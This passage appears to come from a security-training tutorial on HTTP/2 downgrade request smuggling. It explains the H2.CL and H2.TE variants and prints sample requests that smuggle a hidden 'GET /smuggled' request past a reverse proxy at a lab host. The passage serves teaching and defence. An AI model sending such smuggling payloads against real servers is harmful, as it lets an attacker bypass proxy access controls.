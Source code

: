 Thus, the CL header is explicitly allowed, provided it is correct. However, if the reverse proxy does not properly validate that the provided CL header is correct and instead rewrites the request to HTTP/1.1 using the faulty CL header, request smuggling vulnerabilities arise. This results in a so-called `H2.CL` vulnerability. Assuming an attacker sends the following HTTP/2 request (header names are `red`, header values are `green`, and the request body is `yellow`):

```
:method POST
:path /
:authority http2.htb
:scheme http
content-length 0
GET /smuggled HTTP/1.1
Host: http2.htb

```

The vulnerable reverse proxy trusts the provided CL header and thus uses it when rewriting the request to HTTP/1.1, resulting in the following TCP stream:

```
POST / HTTP/1.1
Host: http2.htb
Content-Length: 0

GET /smuggled HTTP/1.1
Host: http2.htb

```

After the HTTP/1.1 rewriting, the TCP stream contains two requests due to the manipulated CL header: a POST request to `/` and a GET request to `/smuggled`. However, the reverse proxy only ever sees a POST request to `/` with the other request being contained within that request's body. Since the web server receives the rewritten HTTP/1.1 TCP stream from the reverse proxy, it sees two requests, meaning we successfully smuggled the second request past the reverse proxy.

Similarly, we can create an `H2.TE` vulnerability with the TE header. The [HTTP/2 RFC](https://datatracker.ietf.org/doc/html/rfc7540) says:

```
The "chunked" transfer encoding defined in [Section 4.1 of [RFC7230]] MUST NOT be used in HTTP/2.

```

If a reverse proxy fails to reject HTTP/2 requests containing the TE header and uses it when rewriting the request to HTTP/1.1, we can achieve request smuggling with an HTTP/2 request similar to the following (header names are `red`, header values are `green`, and the request body is `yellow`):

```
:method POST
:path /
:authority http2.htb
:scheme http
transfer-encoding chunked
0

GET /smuggled HTTP/1.1
Host: http2.htb

```
